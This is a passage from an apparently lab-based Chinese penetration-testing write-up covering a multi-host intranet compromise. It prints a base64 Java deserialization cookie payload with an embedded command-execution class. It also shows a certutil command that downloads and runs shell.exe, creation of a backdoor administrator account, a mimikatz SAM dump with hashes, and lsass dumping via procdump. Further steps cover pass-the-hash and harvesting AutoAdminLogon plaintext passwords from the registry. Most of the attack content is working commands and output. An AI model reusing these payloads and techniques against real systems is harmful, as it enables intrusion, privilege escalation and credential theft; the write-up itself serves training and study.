AAqABcAKwAhACwALQAtADgALgBDAC8AWQAwAHMAMQB5ADIAfwAzAIwANQDsADcBCgA4AQ0AOgE2ADsBTgA8AWYAPwBFAAAAUgAIAAABZwBRAFIAAAAMAVsAUwBUAAEAFwFQAFUAVgACACEBRgBXAFgAAwBDASQAWQBYAAQAWQEOAFoAVgAFAHMA9ABbAFYABgCMANsAXABYAAcASwAAACwABv8AtAAKBwBdBwBeBwBfBwBgBwBgBwBfBwBfBwBgBwBMAQAADwwaIPkAWABhAAAABAABABoACABiAEIAAQBDAAAARAABAAAAAAAYEjazAC8SN7MACBI4swACEjmzACy4ADqxAAAAAQBEAAAAGgAGAAAABwAFAAgACgAJAA8ACgAUAAwAFwANAAEAYwAAAAIAZHVxAH4AGAAAAPLK/rq+AAAAMQATAQADRm9vBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEAClNvdXJjZUZpbGUBAAhGb28uamF2YQEAFGphdmEvaW8vU2VyaWFsaXphYmxlBwAHAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoFceZp7jxtRxgBAA1Db25zdGFudFZhbHVlAQAGPGluaXQ+AQADKClWDAAOAA8KAAQAEAEABENvZGUAIQACAAQAAQAIAAEAGgAJAAoAAQANAAAAAgALAAEAAQAOAA8AAQASAAAAEQABAAEAAAAFKrcAEbEAAAAAAAEABQAAAAIABnB0AALBkHB3AQB4dwQAAAABeA==
Connection: keep-alive


```



如果不知道用哪个命令提权可以尝试问ai



这里我们直接使用这个命令读取就好了

```
/usr/bin/cmp -l ./flag.txt /dev/zero | awk '{printf "%c", strtonum("0"$2)}'
```

```
GET /mail/u/0/ HTTP/1.1
Host: 39.98.116.223:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.98.116.223:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.98.116.223:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=rO0ABXNyAFbBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaLBocGnwK7BlMGywaXBpcGCwaHBp5SVecHY59tsAwAAeHBzcgCEwa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGjwa/BrcGwwaHBssGhwbTBr8GywbPArsGUwbLBocGuwbPBpsGvwbLBrcGpwa7Bp8GDwa/BrcGwwaHBssGhwbTBr8GyL/mE8CuxCMwCAAJMABLBpMGlwaPBr8GywaHBtMGlwaR0ACzBjMGqwaHBtsGhwK/BtcG0wanBrMCvwYPBr8GtwbDBocGywaHBtMGvwbLAu0wAFsG0wbLBocGuwbPBpsGvwbLBrcGlwbJ0AFrBjMGvwbLBp8CvwaHBsMGhwaPBqMGlwK/Bo8Gvwa3BrcGvwa7Bs8CvwaPBr8GswazBpcGjwbTBqcGvwa7Bs8C0wK/BlMGywaHBrsGzwabBr8Gywa3BpcGywLt4cHNyAIDBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaPBr8GtwbDBocGywaHBtMGvwbLBs8CuwYPBr8GtwbDBocGywaHBosGswaXBg8Gvwa3BsMGhwbLBocG0wa/Bsvv0mSW4brE3AgAAeHBzcgB2wa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGmwbXBrsGjwbTBr8GywbPArsGJwa7BtsGvwavBpcGywZTBssGhwa7Bs8Gmwa/BssGtwaXBsofo/2t7fM44AgADWwAKwanBgcGywafBs3QAJsGbwYzBqsGhwbbBocCvwazBocGuwafAr8GPwaLBqsGlwaPBtMC7TAAWwanBjcGlwbTBqMGvwaTBjsGhwa3BpXQAJMGMwarBocG2waHAr8GswaHBrsGnwK/Bk8G0wbLBqcGuwafAu1sAFsGpwZDBocGywaHBrcGUwbnBsMGlwbN0ACTBm8GMwarBocG2waHAr8GswaHBrsGnwK/Bg8GswaHBs8GzwLt4cHVyACbBm8GMwarBocG2waHArsGswaHBrsGnwK7Bj8GiwarBpcGjwbTAu5DOWJ8QcylsAgAAeHAAAAAAdAAcwa7BpcG3wZTBssGhwa7Bs8Gmwa/BssGtwaXBsnVyACTBm8GMwarBocG2waHArsGswaHBrsGnwK7Bg8GswaHBs8GzwLurFteuy81amQIAAHhwAAAAAHcEAAAAAXNyAHTBo8Gvwa3ArsGzwbXBrsCuwa/BssGnwK7BocGwwaHBo8GowaXArsG4waHBrMGhwa7ArsGpwa7BtMGlwbLBrsGhwazArsG4wbPBrMG0waPArsG0wbLBocG4wK7BlMGlwa3BsMGswaHBtMGlwbPBicGtwbDBrAlXT8FurKszAwAGSQAawZ/BqcGuwaTBpcGuwbTBjsG1wa3BosGlwbJJABzBn8G0wbLBocGuwbPBrMGlwbTBicGuwaTBpcG4WwAUwZ/BosG5wbTBpcGjwa/BpMGlwbN0AAbBm8GbwYJbAAzBn8GjwazBocGzwbNxAH4AC0wACsGfwa7BocGtwaVxAH4ACkwAIsGfwa/BtcG0wbDBtcG0wZDBssGvwbDBpcGywbTBqcGlwbN0ACzBjMGqwaHBtsGhwK/BtcG0wanBrMCvwZDBssGvwbDBpcGywbTBqcGlwbPAu3hwAAAAAP////91cgAGwZvBm8GCS/0ZFWdn2zcCAAB4cAAAAAJ1cgAEwZvBgqzzF/gGCFTgAgAAeHAAAA3lyv66vgAAADQA1AoAIgBlCQA7AGYKAAwAZwgAaAoADABpCABqBwBrCQA7AGwKAAcAbQoAOwBuCgAMAG8HAHAIAHEKAHIAcwoADAB0CAB1CgAMAHYIAD4IAHcIAHgIAHkKAHoAewoAegB8CgB9AH4KAAcAfwcAgAoAgQCCCgCBAIMIAIQKAIUAhggAhwcAiAoAIACJBwCKCgCLAIwIAI0IAI4IAI8IAJAKACAAkQoAIgCSCACTCgCLAJQJADsAlQgAlggAlwkAOwCYCACZCgAHAJoKAAcAmwgAnAgAnQgAnggAnwgAoAgAoQgAogoAOwCjBwCkAQAJaGVhZGVyS2V5AQASTGphdmEvbGFuZy9TdHJpbmc7AQADY21kAQAGYWN0aW9uAQAIcG9zaXRpb24BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAFExwYXlsb2FkL1NwcmluZ0VjaG87AQAFc3RhcnQBAAV2YXIxMQEAE1tMamF2YS9sYW5nL1N0cmluZzsBAA1TdGFja01hcFRhYmxlBwBwBwBKBwCAAQAERWNobwEAFihMamF2YS91dGlsL1NjYW5uZXI7KVYBAAdzY2FubmVyAQATTGphdmEvdXRpbC9TY2FubmVyOwEABHZhcjABABFMamF2YS9sYW5nL0NsYXNzOwEABHZhcjEBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABHZhcjIBABJMamF2YS9sYW5nL09iamVjdDsBAAR2YXI0AQAEdmFyNgEABHZhcjcBAAR2YXI4BwBrBwCIBwClBwCKAQAKRXhjZXB0aW9ucwEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEAD1NwcmluZ0VjaG8uamF2YQwAQQBCDAA/AD0MAKYApwEABGVjaG8MAKgAqQEABGV4ZWMBABFqYXZhL3V0aWwvU2Nhbm5lcgwAPgA9DABBAKoMAE8AUAwAqwCsAQAQamF2YS9sYW5nL1N0cmluZwEAB29zLm5hbWUHAK0MAK4ArwwAsACxAQADV0lODACyALMBAAIvYwEABy9iaW4vc2gBAAItYwcAtAwAtQC2DABqALcHALgMALkAugwAQQC7AQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAvAwAvQC+DAC/AMABADxvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuUmVxdWVzdENvbnRleHRIb2xkZXIHAMEMAMIAwwEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzAQAPamF2YS9sYW5nL0NsYXNzDADEAMUBABBqYXZhL2xhbmcvT2JqZWN0BwClDADGAMcBAEBvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuU2VydmxldFJlcXVlc3RBdHRyaWJ1dGVzAQALZ2V0UmVzcG9uc2UBAB1qYXZheC5zZXJ2bGV0LlNlcnZsZXRSZXNwb25zZQEACWdldFdyaXRlcgwAyADFDADJAMoBAAlhZGRIZWFkZXIMAMsAzAwAQAA9AQAGaGVhZGVyAQAEYm9keQwAPAA9AQACXEEMAM0AzgwAzwCxAQAHcHJpbnRsbgEABWZsdXNoAQAFY2xvc2UBAARFdGFnAQBLL3Vzci9iaW4vY21wIC1sIC4vZmxhZy50eHQgL2Rldi96ZXJvIHwgYXdrICd7cHJpbnRmICIlYyIsIHN0cnRvbnVtKCIwIiQyKX0nAQAEZXhlYwEABGJvZHkMAEgAQgEACFNKbVNKeGtIAQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQAIaGFzaENvZGUBAAMoKUkBAAZlcXVhbHMBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAAdpc0VtcHR5AQADKClaAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAt0b1VwcGVyQ2FzZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIBAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQAJZ2V0TWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABmludm9rZQEAOShMamF2YS9s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
Connection: keep-alive


```



拿到flag

#### 不出网打内存马





```
GET /mail/u/0/ HTTP/1.1
Host: 39.99.157.159:8080
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.99.157.159:8080/
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate


```





这里注意，**自定义的请求头要加上去**



连接成功





我们直接上线vshell

不出网，只能正向上线



生成，上传到靶机中







上线成功

能传东西，自然也可以用新出的cve-2025-32463打



挂代理，fscan开扫

```
root@webserver:/tmp# ./fscan -h 172.16.53.0/24 -eh 172.16.53.30
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-07-08 17:58:24] [INFO] 暴力破解线程数: 1
```

没扫出来什么东西

这是官方给出来的

```
Extranet 172.16.53.30
ASLITPC03 172.16.36.21
ASLSRVFS02 172.16.34.23
ASLSRVAD05 172.16.34.5
```

由于网段有点乱，所以fscan扫会时间很长，这里就不fscan扫B端了

ping一下试试

```
root@webserver:/tmp# ping 172.16.34.23
PING 172.16.34.23 (172.16.34.23) 56(84) bytes of data.
64 bytes from 172.16.34.23: icmp_seq=1 ttl=128 time=0.739 ms
64 bytes from 172.16.34.23: icmp_seq=2 ttl=128 time=0.379 ms
64 bytes from 172.16.34.23: icmp_seq=3 ttl=128 time=0.301 ms
64 bytes from 172.16.34.23: icmp_seq=4 ttl=128 time=0.338 ms
64 bytes from 172.16.34.23: icmp_seq=5 ttl=128 time=0.299 ms
64 bytes from 172.16.34.23: icmp_seq=6 ttl=128 time=0.418 ms
64 bytes from 172.16.34.23: icmp_seq=7 ttl=128 time=0.290 ms
64 bytes from 172.16.34.23: icmp_seq=8 ttl=128 time=0.296 ms
64 bytes from 172.16.34.23: icmp_seq=9 ttl=128 time=0.405 ms

root@webserver:/tmp# ping 172.16.36.21
PING 172.16.36.21 (172.16.36.21) 56(84) bytes of data.
64 bytes from 172.16.36.21: icmp_seq=1 ttl=128 time=0.585 ms
64 bytes from 172.16.36.21: icmp_seq=2 ttl=128 time=0.326 ms
64 bytes from 172.16.36.21: icmp_seq=3 ttl=128 time=0.316 ms
^C
--- 172.16.36.21 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2069ms
rtt min/avg/max/mdev = 0.316/0.409/0.585/0.124 ms
root@webserver:/tmp# ping 172.16.34.5
PING 172.16.34.5 (172.16.34.5) 56(84) bytes of data.
64 bytes from 172.16.34.5: icmp_seq=1 ttl=128 time=0.353 ms
64 bytes from 172.16.34.5: icmp_seq=2 ttl=128 time=0.278 ms
64 bytes from 172.16.34.5: icmp_seq=3 ttl=128 time=0.294 ms
64 bytes from 172.16.34.5: icmp_seq=4 ttl=128 time=0.286 ms
64 bytes from 172.16.34.5: icmp_seq=5 ttl=128 time=0.274 ms
^C
--- 172.16.34.5 ping statistics ---
```

都能通，那么就一个个打吧

```
mail-svc@webserver:/tmp$ ./fscan -h 172.16.36.21
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-07-08 18:11:53] [INFO] 暴力破解线程数: 1
[2025-07-08 18:11:53] [INFO] 开始信息扫描
[2025-07-08 18:11:53] [INFO] 最终有效主机数量: 1
[2025-07-08 18:11:53] [INFO] 开始主机扫描
[2025-07-08 18:11:53] [INFO] 有效端口数量: 233
[2025-07-08 18:11:53] [SUCCESS] 端口开放 172.16.36.21:139
[2025-07-08 18:11:53] [SUCCESS] 端口开放 172.16.36.21:3306
[2025-07-08 18:11:53] [SUCCESS] 端口开放 172.16.36.21:135
[2025-07-08 18:11:53] [SUCCESS] 端口开放 172.16.36.21:445
[2025-07-08 18:11:59] [SUCCESS] 服务识别 172.16.36.21:139 =>  Banner:[.]
[2025-07-08 18:11:59] [SUCCESS] 服务识别 172.16.36.21:445 => 
[2025-07-08 18:12:06] [SUCCESS] 服务识别 172.16.36.21:3306 =>  Banner:[!.#08S01Got packets out of order]
[2025-07-08 18:12:59] [SUCCESS] 服务识别 172.16.36.21:135 => 
[2025-07-08 18:12:59] [INFO] 存活端口数量: 4
[2025-07-08 18:12:59] [INFO] 开始漏洞扫描
[2025-07-08 18:12:59] [INFO] 加载的插件: findnet, ms17010, mysql, netbios, smb, smb2, smbghost
[2025-07-08 18:12:59] [SUCCESS] NetBios 172.16.36.21    AOSELUAUTO\ASLITPC03          
[2025-07-08 18:12:59] [SUCCESS] NetInfo 扫描结果
目标主机: 172.16.36.21
主机名: ASLITPC03
发现的网络接口:
   IPv4地址:
      └─ 172.16.36.21
[2025-07-08 18:20:58] [SUCCESS] 扫描已完成: 7/7
```

```
Extranet 172.16.53.30  已拿下  反序列化打内存马 cve-2025-32463
ASLITPC03 172.16.36.21   
ASLSRVFS02 172.16.34.23
ASLSRVAD05 172.16.34.5  DC
```

## 内网渗透

### flag02

#### jar反编译

扫到有mysql端口，还有源码

我们查看代码获得mysql账号密码

前面用jd-gui没搜到

还是idea好用，比较清晰

具体打开步骤就不放了



```
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
spring.datasource.url=jdbc:mysql://172.16.52.45:3306/maildb?characterEncoding=utf-8&useUnicode=true&serverTimezone=UTC
spring.datasource.username=root
spring.datasource.password=T%b8ds*l3v+B
```





拿下

#### SeImpersonatePrivilege

那么我们先上线吧



机器不出网，但是内网可以通讯，所以将木马放在入口机的web服务上

这里注意，存放的本地路径最好不要带空格（否则会影响运行）

还可以在navicat执行命令，会流畅一点，这里太卡了

```
certutil.exe -urlcache -split -f http://172.16.53.30:80/shell.exe C:/Users/Public/shell.exe
```





然后运行该程序

```
C:/Users/Public/shell.exe
```

就成功上线了





这里明明可以土豆提权的，但是就是不成功



最后还是使用godpotato成功提权





接下来 我们继续打其他的主机

```
Extranet 172.16.53.30  已拿下  反序列化打内存马 cve-2025-32463
ASLITPC03 172.16.36.21   已拿下  mysql udf potato提权
ASLSRVFS02 172.16.34.23
ASLSRVAD05 172.16.34.5  DC
```

### flag03

#### rdp

```
C:\Users\Public\tmp>net user Hundredsu qwer123! /add
The command completed successfully.


C:\Users\Public\tmp>net localgroup administrators Hundredsu /add
The command completed successfully.
```

rdp上去好操作些

#### 内网信息收集

这里看看是不是进到域环境了

定位域控

```
C:\Users\Hundredsu\Desktop\x64>net time /domain
Current time at \ASLSRVAD05.aoseluauto.com is 7/8/2025 8:55:14 PM

The command completed successfully.
```

ping一下或者官方都已经给出ip了

##### mimikatz

```
C:\Users\Hundredsu\Desktop\x64>mimikatz.exe "lsadump::sam" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::sam
Domain : ASLITPC03
SysKey : 1c1d48aedd972a736190a9d7ad6372f1
Local SID : S-1-5-21-3910597396-2766426005-48596025

SAMKey : aa660572728ee137643c2f81e02693c4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: d41d2c4614bf18fa34726d4c1ba69fc2

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ad91da6da89ad2e12bad94f34d7bd7d2

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1FDC75TLQPRAdministrator
    Default Iterations : 4096
    Credentials
      des_cbc_md5_nt    (4096) : 1536102263bc27d1b3c13b188715a912ce4747ca460ee1630dddd746c1b08ea5
      unknow            (4096) : 88172a4be5167d9c154c3a6f473da3f2
      aes256_hmac       (4096) : 05fad896627657ffd593f8a3112079cd308c787846dfc4dcf2a1efcc38c44044
      aes128_hmac       (4096) : 96acfc5f83c4585559cdfe8e34b2489d
      rc4_hmac_nt       (4096) : d41d2c4614bf18fa34726d4c1ba69fc2
    ServiceCredentials
      des_cbc_md5_nt    (4096) : 1536102263bc27d1b3c13b188715a912ce4747ca460ee1630dddd746c1b08ea5
      unknow            (4096) : 88172a4be5167d9c154c3a6f473da3f2
      aes256_hmac       (4096) : 05fad896627657ffd593f8a3112079cd308c787846dfc4dcf2a1efcc38c44044
      aes128_hmac       (4096) : 96acfc5f83c4585559cdfe8e34b2489d


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 4bf0ee8fd1cc326bb824ecfd02235086

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 7c6a36b8522c6075c5ada89d87d1ec2b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f76f23dbaafe66d7cf8a42cee7911f1e2f90865c4bb1d1f085ac34e47887facf
      aes128_hmac       (4096) : 871422be7656216911212d113ef5c75d
      rc4_hmac_nt       (4096) : 4bf0ee8fd1cc326bb824ecfd02235086
    ServiceCredentials
      aes256_hmac       (4096) : f76f23dbaafe66d7cf8a42cee7911f1e2f90865c4bb1d1f085ac34e47887facf
      aes128_hmac       (4096) : 871422be7656216911212d113ef5c75d


RID  : 000003e8 (1000)
User : Hundredsu
  Hash NTLM: 72d98c440b25ce7b05d81233044c020c
    lm  - 0: 84bf95fe1d8b236e4c9c75847e8176bf
    ntlm- 0: 72d98c440b25ce7b05d81233044c020c

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 897ddb49d329b92a806b9981dda39c6c

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos-Newer-Keys *
    Default Salt : ASLITPC03.AOSELUAUTO.COMHundredsu
    Default Iterations : 4096
    Credentials
      des_cbc_md5_nt    (4096) : 88d6360e371965d5d3b613571d7e51ca1d70d83a030744deb3d5addbc59e3047
      unknow            (4096) : 40f0e1a4c2561a193bebeec1e57479ec
      aes256_hmac       (4096) : 18cda8a4f456a95f166ba225066404730067d76c9afe14bffb51f6cad8328b28
      aes128_hmac       (4096) : 90ff1329a9aa768508b8783bbc1eb57b
      rc4_hmac_nt       (4096) : 72d98c440b25ce7b05d81233044c020c
    ServiceCredentials
      des_cbc_md5_nt    (4096) : 88d6360e371965d5d3b613571d7e51ca1d70d83a030744deb3d5addbc59e3047
      unknow            (4096) : 40f0e1a4c2561a193bebeec1e57479ec
      aes256_hmac       (4096) : 18cda8a4f456a95f166ba225066404730067d76c9afe14bffb51f6cad8328b28
      aes128_hmac       (4096) : 90ff1329a9aa768508b8783bbc1eb57b


mimikatz(commandline) # exit
Bye!
```

```
python secretsdump.py aoseluauto.com/Administrator@172.16.36.21 -hashes :d41d2c4614bf18fa34726d4c1ba69fc2 -just-dc-ntlm
```

没成功

##### SharpHound信息收集

使用SharpHound信息收集一下，要注意版本

```
SharpHound.exe -c all
```





那么接下来我们要获取到SVC\_MOMADM01的hash

由于系统问题，一直抓取不到hash，那么各种方法都试了一下

##### 远程密码获取-Procdump+Mimikatz（没成功）

使用Procdump+Mimikatz的方法

```
当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe:
procdump64.exe -accepteula -ma lsass.exe lsass.dmp


将lsass.dmp下载到本地后，然后执行mimikatz:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit


为了方便复制与查看，可以输出到本地文件里面：
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt
```

也还是报一样的错

<https://mp.weixin.qq.com/s/rcxeh80Avd9uOCl1brRpSw>



下了最新版还是不行

##### autologin的配置

发现路走歪了

信息收集没做全

```
C:\Users\Public>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoAdminLogon    REG_SZ    1


C:\Users\Public>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    DROCV4?LtyCp


C:\Users\Public>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultUsername    REG_SZ    EthanMorris


C:\Users\Public>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomain


ERROR: The system was unable to find the specified registry key or value.

C:\Users\Public>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultDomainName    REG_SZ    aoseluauto.com
```

可以获取到EthanMorris的账密



查看一下对哪些文件可以观看

```
proxychains4 -q nxc smb 172.16.34.23 -u EthanMorris -p 'DROCV4?LtyCp' --shares
```

```
┌──(root㉿Hundredsu)-[~]
